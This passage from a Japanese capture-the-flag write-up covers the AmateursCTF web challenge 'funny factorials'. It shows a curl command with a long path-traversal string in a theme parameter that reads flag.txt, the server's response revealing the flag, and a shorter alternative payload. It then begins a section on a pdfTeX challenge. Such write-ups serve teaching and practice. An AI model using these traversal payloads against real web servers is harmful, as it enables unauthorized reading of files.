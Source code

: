 後はエラーが出ないように調整して完了。

```sh
$ curl https://funny-factorials.amt.rs/?theme=..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/flag.txt
<!DOCTYPE html>
<html>
  <head>
    <title>Factorial Calculator</title>
    <!-- inline styles passed into the template -->
    <style>
        amateursCTF{h1tt1ng_th3_r3curs10n_l1mt_1s_1mp0ssibl3}
    </style>
  </head>
  <body>
<SNIP>
```

### 別解:web/funny factorials

他の人のWriteupを見る限り、`https://funny-factorials.amt.rs/?theme=//flag.txt`で良かったようです。

## web/latek

![6](./images/6.jpg)

pdfTeXが使われており、入力値によってPDFが作成されます。

